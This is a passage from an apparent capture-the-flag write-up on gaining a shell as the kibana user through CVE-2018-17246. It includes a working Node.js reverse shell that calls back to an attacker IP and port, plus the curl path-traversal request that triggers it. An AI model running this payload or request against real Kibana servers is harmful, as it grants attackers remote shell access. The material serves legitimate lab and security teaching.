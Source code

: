 ### Pivot to kibana user

Researching known vulnerabilities in Elasticsearch `6.4.2`, we've come across [CVE-2018-17246](https://github.com/mpgn/CVE-2018-17246). The Github user [mpgn](https://github.com/mpgn) has provided a proof of concept we can leverage to exploit this vulnerability for local file inclusion (LFI). This should allow us to get a shell as the user `kibana`, and do more with `logstash` than we currently have permission to do.

The javascript reverse shell code provided is as follows. All that's needed for this to work out of the box is replacing our IP and port that netcat is listening on.

```javascript
(function(){
    var net = require("net"),
        cp = require("child_process"),
        sh = cp.spawn("/bin/sh", []);
    var client = new net.Socket();
    client.connect(4444, "10.10.14.19", function(){
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
    });
    return /a/; // Prevents the Node.js application form crashing
})();
```

We place the shell code into a directory to which we have access as the `security` user. In this case we place the shell into `/dev/shm`, and name it `mahshell.js`.

We are able to determine that `kibana` is running locally on port `5601` by reading the `/etc/kibana/kibana.yml` file.

![kibana yml](/wp-content/uploads/2019/08/haystack/kibana_yml.png)
**Figure 3:** kibana.yml

We can make the following `curl` request to execute our reverse shell code.

```console
[security@haystack shm]$ curl -X GET "localhost:5601/api/console/api_server?sense_version=%40%40SENSE_VERSION&apis=../../../../../../../../../../../dev/shm/mahshell.js" -H "kbn-xsrf: true"
```
